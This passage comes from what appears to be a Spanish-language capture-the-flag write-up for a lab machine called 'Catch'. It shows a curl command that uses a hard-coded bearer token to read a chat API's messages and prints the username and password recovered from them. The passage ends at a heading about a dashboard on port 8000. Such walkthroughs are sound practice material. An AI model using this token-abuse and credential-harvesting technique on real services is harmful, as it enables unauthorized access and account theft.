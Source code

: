 ![Respuesta formateada](/secciones/posts/imagenes/catch/salida3.jpg)

### Obtención de mensajes

```bash
curl -s -X GET "http://10.10.11.150:5000/rooms/61b86b28d984e2451036eb17/messages" -H "Authorization: Bearer NjFiODZhZWFkOTg0ZTI0NTUwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ==" | jq '.[].text'
```

![Mensajes obtenidos](/secciones/posts/imagenes/catch/salida4.jpg)

**Credenciales encontradas en los mensajes**:
```
"Here are the credentials john : E}WV!mywu_69T4C}"
```

**Credenciales**: `john : E}WV!mywu_69T4C}`

---

## Acceso al dashboard (Puerto 8000)
